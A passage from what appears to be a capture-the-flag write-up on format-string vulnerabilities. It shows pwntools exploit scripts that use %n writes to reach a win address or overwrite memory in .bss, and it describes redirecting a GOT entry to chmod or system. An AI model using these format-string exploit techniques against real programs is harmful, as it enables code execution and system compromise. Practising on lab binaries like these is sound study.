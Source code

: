 ```python
    goal_value = 0x82802f819c27a46a
    
    p0.readuntil(b'Send your data!')

    payload = gen_fmt(offset, goal_value)
    payload += struct.pack('<Q', win_addr)  # Store win address on the stack
    payload += struct.pack('<Q', win_addr + 1)
    payload += struct.pack('<Q', win_addr + 2) 
    payload += struct.pack('<Q', win_addr + 3)
    payload += struct.pack('<Q', win_addr + 4)
    payload += struct.pack('<Q', win_addr + 5) 
    payload += struct.pack('<Q', win_addr + 6)
    payload += struct.pack('<Q', win_addr + 7)
    payload += (256 - len(payload)) * b'A'
    p0.send(payload)

    p0.interactive()
```

## Challenge 6

Now we'd like to copy a value, into some address within the `.bss`. 

```python
p0 = process(BINARY)
win_addr = 0x404170
format_string_stack_offset = 0x84
secret_to_format_string_offset = 0x134
offset = format_string_stack_offset + secret_to_format_string_offset
position = 6 + int(offset / 8) 

p0.readuntil(b'Send your data!')

payload = b'%*' + str(position).encode() + b'$c'
payload += b'%46$n'
payload += b'\x00'
payload += struct.pack('<Q', win_addr) * 40  # create many copies, easy exploit
payload += (256 - len(payload)) * b'A'
p0.send(payload)

p0.interactive()
```

## Challenge 7

In a similar manner, we'd now like to overwrite a GOT entry. \
Notice we can invoke the format vuln multiple times. Hence, we can easily leak some libc address, and overwrite a GOT entry of our wish into it. For example, overwriting `printf` GOT to `chmod`'s, and using the controlled input as a parameter for `chmod` path. We can also use `system`, which takes only a single parameter. \
The following exploit does exactly this:
